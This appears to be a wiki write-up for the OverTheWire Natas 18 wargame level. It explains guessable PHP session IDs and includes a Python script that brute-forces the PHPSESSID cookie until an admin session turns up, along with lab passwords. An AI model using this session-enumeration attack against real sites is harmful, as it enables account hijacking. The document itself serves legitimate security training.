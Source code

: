 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas18 xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP URL:
<http://natas18.natas.labs.overthewire.org>

the php code wasnt too bad this time only that it had a max of 640
sessions ids, and where iteratable and had to guess which one was the
admin user.

so we did a little brute force attack to get the right sess id

`  `
`import requests`
`  `
`for i in range(650):`
`    session = requests.Session()`
`    session.cookies.set('PHPSESSID',str(i))`
`    print(session.cookies.get_dict())`
`    response = session.get('http://natas18.natas.labs.overthewire.org', auth=('natas18','xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'))`
`    print(response.text)`
`    if("You are an admin" in response.text):`
`        break`

4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs